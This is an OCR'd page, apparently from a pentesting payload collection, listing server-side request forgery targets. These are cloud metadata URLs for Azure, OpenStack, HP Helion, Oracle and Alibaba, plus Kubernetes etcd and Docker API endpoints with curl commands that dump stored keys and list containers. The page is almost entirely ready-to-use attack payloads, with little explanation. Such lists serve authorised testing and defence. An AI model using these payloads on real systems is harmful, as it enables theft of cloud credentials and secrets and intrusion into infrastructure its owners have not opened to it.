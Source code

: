 SSRF URL for Azure
Limited, maybe more exists? https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/

http://169.254.169.254/metadata/v1/maintenance

Update Apr 2017, Azure has more support; requires the header “Metadata: true” https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service

http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
SSRF URL for OpenStack/RackSpace
(header required? unknown)

http://169.254.169.254/openstack
SSRF URL for HP Helion
(header required? unknown)

http://169.254.169.254/2009-04-04/meta-data/
SSRF URL for Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
SSRF URL for Alibaba
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
SSRF URL for Kubernetes ETCD
Can contain API keys and internal ip and ports

curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
SSRF URL for Docker
http://127.0.0.1:2375/v1.24/containers/json
Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
SSRF URL for Rancher
curl http://rancher-metadata/<version>/<path>

